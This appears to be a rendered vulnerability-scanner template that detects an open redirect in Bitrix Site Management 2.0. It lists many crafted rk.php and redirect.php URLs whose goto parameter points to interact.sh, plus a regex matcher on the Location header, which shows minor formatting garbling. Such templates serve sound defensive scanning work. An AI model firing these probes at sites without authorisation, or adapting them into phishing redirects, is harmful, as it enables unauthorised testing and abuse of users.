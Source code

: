 ### Matchers

**Type - regex**

- regex
  1. (?m)^(?:Location\s*?:\s*?)(?:https?://|//)?(?:[a-zA-Z0-9\-_\.@]_)interact\.sh._$
- part - header

---

# Bitrix Site Management Russia 2.0 - Open Redirect

## Description

- Bitrix Site Management Russia 2.0 contains an open redirect vulnerability. An attacker can redirect a user to a malicious site and possibly obtain sensitive information, modify data, and/or execute unauthorized operations.
- severity - low
- tags - redirect,bitrix,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/bitrix/rk.php?goto=https://interact.sh
- {{BaseURL}}/bitrix/redirect.php?event1=&event2=&event3=&goto=https://interact.sh
- {{BaseURL}}/bitrix/redirect.php?event3=352513&goto=https://interact.sh
- {{BaseURL}}/bitrix/redirect.php?event1=demo_out&event2=sm_demo&event3=pdemo&goto=https://interact.sh
- {{BaseURL}}/bitrix/redirect.php?site_id=s1&event1=select_product_t1&event2=contributions&goto=https://interact.sh
- {{BaseURL}}/bitrix/redirect.php?event1=&event2=&event3=download&goto=https://interact.sh
- {{BaseURL}}/bitrix/rk.php?id=28&site_id=s2&event1=banner&event2=click&event3=3+%2F+%5B28%5D+%5BBANNER_AREA_FOOTER2%5D+%D0%9F%D0%BE%D1%81%D0%B5%D1%82%D0%B8%D1%82%D0%B5+%D0%B2%D0%B2%D0%BE%D0%B4%D0%BD%D1%83%D1%8E+%D0%B1%D0%B5%D1%81%D0%BF%D0%BB%D0%B0%D1%82%D0%BD%D1%83%D1%8E+%D0%BB%D0%B5%D0%BA%D1%86%D0%B8%D1%8E+APTOS&goto=https://interact.sh
- {{BaseURL}}/bitrix/rk.php?id=84&site_id=n1&event1=banner&event2=click&event3=1+%2F+%5B84%5D+%5BMOBILE_HOME%5D+Love+Card&goto=https://interact.sh
- {{BaseURL}}/bitrix/rk.php?id=691&site_id=s3&event1=banner&event2=click&event3=1+%2F+%5B691%5D+%5BNEW_INDEX_BANNERS%5D+Trade-in+football&goto=https://interact.sh
- {{BaseURL}}/bitrix/rk.php?id=129&event1=banner&event2=click&event3=5+%2F+%5B129%5D+%5BGARMIN_AKCII%5D+Garmin+%E1%EE%ED%F3%F1+%ED%EE%E2%EE%F1%F2%FC+%E2+%E0%EA%F6%E8%E8&goto=https://interact.sh
- {{BaseURL}}/bitrix/redirect.php?event1=%D0%A1%D0%BF%D0%B5%D1%86%D0%B8%D0%B0%D0%BB%D1%8C%D0%BD%D1%8B%D0%B5+%D0%B4%D0%BE%D0%BA%D0%BB%D0%B0%D0%B4%D1%8B&event2=&event3=download&goto=https://interact.sh
- {{BaseURL}}/bitrix/redirect.php?event1=%D0%A1%D0%BF%D0%B5%D1%86%D0%B8%D0%B0%D0%BB%D1%8C%D0%BD%D1%8B%D0%B5+%D0%B4%D0%BE%D0%BA%D0%BB%D0%B0%D0%B4%D1%8B&event2=&event3=download&goto=https://interact.sh

### Matchers
